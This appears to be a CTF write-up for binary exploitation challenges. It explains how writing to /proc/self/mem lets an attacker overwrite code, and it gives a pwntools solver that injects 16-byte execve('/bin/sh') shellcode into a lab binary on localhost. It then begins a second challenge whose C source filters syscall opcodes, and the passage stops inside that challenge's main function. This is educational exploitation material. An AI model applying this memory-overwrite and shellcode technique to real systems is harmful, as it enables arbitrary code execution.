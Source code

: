 tldr : you can open any file you want and write 16 bytes to it . RCE needed

in the midst of the ctf , i gave a hint about proc files . reading this [proc fs](https://docs.kernel.org/filesystems/proc.html) , we notice an interesting file _mem_ : Memory held by this process . looking further into this specific file, we find this [link](https://blog.cloudflare.com/diving-into-proc-pid-mem/#what-does-proc-pid-mem-do), it shows that we can read and write to this file , and it will be just like writing to the memory of the process , one thing more interesting about it is that we can write in non writeable memory .

Plan :

- open '/proc/self/mem' , overwrite some code of main , typically the one right after _write_ with a shellcode of our own .
- we only have 16 bytes shellcode , so we need to write the string /bin/sh beforehand , the intended way was to write it right after the prompted filename , seperated by null byte .
- try to write a very minimalistic shellcode so it fits into 16 bytes

Solver :

```python
from pwn import *

context.arch='amd64'
#p=process("./chal")
p=remote("localhost",7004)
p.sendline(b"/proc/self/mem\x00"+b"/bin/sh\x00")

p.sendline(str(0x00000000004013c5).encode())

shellcode='''
    lea rdi, [rsp+0x2f]
    xor esi,esi
    xor edx,edx
    mov eax,0x3b
    syscall
'''
p.send(asm(shellcode))

p.interactive()
```

---

# DHlam

```C
char shellcode[]="H1\xc0H1\xdbH1\xc9H1\xd2H1\xe4H1\xedH1\xf6H1\xffM1\xc0M1\xc9M1\xd2M1\xdbM1\xe4M1\xedM1\xf6M1\xff";
int sanitize(char * code){
    for (int i=0;i<0x500;i++){

        if (memcmp(code+i,"\x0f\x05",2)==0) return 0;
        if (memcmp(code+i,"\xcd\x80",2)==0) return 0;
        if (memcmp(code+i,"\x0f4",2)==0) return 0;
    }
    return 1;
}
void setup(){
    setbuf(stdin,0);
    setbuf(stdout,0);

}
int main(){

    setup();
    puts("dahdes fel dhalma !!");
```